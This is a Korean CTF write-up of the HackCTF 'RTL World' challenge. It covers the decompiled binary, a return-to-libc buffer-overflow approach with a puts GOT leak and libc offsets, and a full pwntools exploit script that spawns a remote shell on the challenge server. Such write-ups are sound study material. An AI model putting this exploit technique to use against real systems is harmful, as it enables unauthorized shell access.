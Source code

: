 ```yaml
---
layout: post
title:  "HacCTF RTL World write-up"
date:   2020-01-08 19:45:55
image:  hackctfrtl.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_world/Untitled.png)

문제를 보면 굉장히 많은 문구의 내용들이 나온다. 차근차근 하나씩 입력하면서 무슨 기능을 하는 프로그램인지 확인하였다.

1번 메뉴를 누르면 현재 해당 파일에 적용되어 있는 보호기법들을 확인 할 수 있다

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int result; // eax
      int v4; // [esp+0h] [ebp-A0h]
      int v5; // [esp+10h] [ebp-90h]
      char buf; // [esp+14h] [ebp-8Ch]
      void *v7; // [esp+94h] [ebp-Ch]
      void *handle; // [esp+98h] [ebp-8h]
      void *s1; // [esp+9Ch] [ebp-4h]
    
      setvbuf(stdout, 0, 2, 0);
      handle = dlopen("/lib/i386-linux-gnu/libc.so.6", 1);
      v7 = dlsym(handle, "system");
      dlclose(handle);
      for ( s1 = v7; memcmp(s1, "/bin/sh", 8u); s1 = (char *)s1 + 1 )
        ;
      puts("\n\nNPC [Village Presient] : ");
      puts("Binary Boss made our village fall into disuse...");
      puts("If you Have System Armor && Shell Sword.");
      puts("You can kill the Binary Boss...");
      puts("Help me Pwnable Hero... :(\n");
      printf("Your Gold : %d\n", gold);
      while ( 1 )
      {
        Menu(v4);
        printf(">>> ");
        __isoc99_scanf("%d", &v5);
        switch ( v5 )
        {
          case 0:
            continue;
          case 1:
            system("clear");
            puts("[Binary Boss]\n");
            puts("Arch:     i386-32-little");
            puts("RELRO:    Partial RELRO");
            puts("Stack:    No canary found");
            puts("NX:       NX enabled");
            puts("PIE:      No PIE (0x8048000)");
            puts("ASLR:  Enable");
            printf("Binary Boss live in %p\n", handle);
            puts("Binart Boss HP is 140 + Armor + 4\n");
            break;
          case 2:
            v4 = gold;
            Get_Money();
            break;
          case 3:
            if ( gold <= 1999 )
            {
              puts("You don't have gold... :(");
            }
            else
            {
              gold -= 1999;
              printf("System Armor : %p\n", v7);
            }
            break;
          case 4:
            if ( gold <= 2999 )
            {
              puts("You don't have gold... :(");
            }
            else
            {
              gold -= 2999;
              printf("Shell Sword : %p\n", s1);
            }
            break;
          case 5:
            printf("[Attack] > ");
            read(0, &buf, 0x400u);
            return 0;
          case 6:
            puts("Your Not Hero... Bye...");
            exit(0);
            return result;
        }
      }
    }

다음은 아이다로 확인한 코드이다.

전체적으로 switch case로 되어 있는데 결론적으로 case 5번안에 있는 read 함수를 이용하여 bof를 일으키는 문제이다

해당 파일은 NX비트가 걸려있지만 PIE가 안걸려 있으므로 yes_or_no 문제와 동일하게 풀면 될 것이다

### 2. 접근방법

일단 해당 문제는 32비트 환경이라는 것을 잊으면 안된다.

그렇다면, 다음의 순서로 접근을 하면 될 것 같다.

문제의 풀이 방법은 이전 문제와 완전 동일하기 때문에 자세하기 적지는 않겠다

1. puts **함수가 실행되기 위한 알맞은 입력값 찾기**
    - 여기서 주의할 것은 이전 문제는 64비트, 현재 문제는 32비트이므로 함수 인자 컨트롤이 다르다
        - 32비트 환경 RTL

            [RTL 기법 파헤치기](https://wogh8732.tistory.com/106?category=711515)

2. read함수로 라이브러리 주소 leak하기

3. 오프셋을 이용하여 system, /bin/sh 주소를 찾은 뒤 익스 

- 구한 값들을 이용해서 다음과 같이 페이로드를 작성하면 된다

    libc_base : 0xf7e01000
    puts : 0xf7e60ca0
    system : 0xf7e3bda0
    /bin/sh : 0xf7f5ca0b
    puts_offset(puts - libc_base) : 0x5fca0
    sys_offset(system - libc_base) : 0x3ada0
    bin_offset(/bin/sh - libc_base) : 0x15ba0b

    puts_addr - puts_offset = y_libc_base
    y_libc_base + sys_offset = system_addr
    y_libc_base + bin_offset = /bin/sh/_addr

    puts 주소 leak을 위한 입력값 :
    → ret(print plt) + 메인주소 + print got)

    익스를 위한 최종 입력값 :
    → ret(system) + 더미 + "/bin/sh"주소 

### 3. 풀이

최종 익스 코드는 다음과 같다

    from pwn import *
    #context.log_level = "debug"
    
    p=remote("ctf.j0n9hyun.xyz",3010)
    #p=process("./rtl_world")
    #gdb.attach(p)
    p.recvuntil(">>> ")
    
    p.sendline("5")
    
    p.recvuntil("[Attack] > ")
    
    
    #gatget
    puts_plt = p32(0x80485a0)
    puts_got = p32(0x804b01c)
    
    libc_base = 0x804b01c
    puts = 0x804b01c
    system = 0xf7e3bda0
    bin_sh = 0xf7e3bda0
    
    puts_offset = 0x5fca0
    sys_offset = 0x3ada0
    bin_offset = 0x15ba0b
    
    
    payload = "A"*144
    payload += puts_plt
    payload += p32(0x08048983)
    payload += puts_got
    
    p.sendline(payload)
    
    puts_addr = p.recv(4)
    log.info(puts_addr)
    puts_addr = u32(puts_addr)
    
    log.info("leak = "+hex(puts_addr))
    
    p.recvuntil(">>> ")
    
    p.sendline("5")
    
    p.recvuntil("[Attack] > ")
    
    y_libc_base = puts_addr - puts_offset 
    system_addr = y_libc_base + sys_offset 
    bin_sh_addr = y_libc_base + bin_offset
    
    payload = "A"*144
    payload += p32(system_addr) 
    payload +="BBBB"
    payload += p32(bin_sh_addr)
    
    p.sendline(payload)
    p.interactive()

### 4. 몰랐던 개념

몰랐던 개념은 없었다

이번 문제는 사실 이렇게 풀지 않아도, 메뉴 선택을 이용하여 system 함수와 /bin/sh 주소를 구하여 쉽게 익스를 할 수 있었다.

하지만 yes_or_no 문제를 풀면서 공부하고 이해했던 개념들을 복습하기 위해 이렇게 풀었다

하나 시행착오는 해당 문제는 18.04버전에서 진행했는데, remote가 아닌 process로 붙어서 진행했을때는 성공적으로 쉘이 떨어졌지만 remote로 진행했을때는 동작하지 않았다.

따라서 libc database online을 이용해서 leak한 puts 주소를 가지고 libc 버전을 확인하였는데

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_world/Untitled%201.png)

다음과 같이 해당 libc는 16버전으로 확인이 되었다

따라서 16.04 우분투환경으로 다시 오프셋을 구하여 코드를 작성하였고, 64비트 환경에서 32비트 elf 파일 실행을 위해 추가적으로 i3 머시기 패키지를 설치하여 실행하였다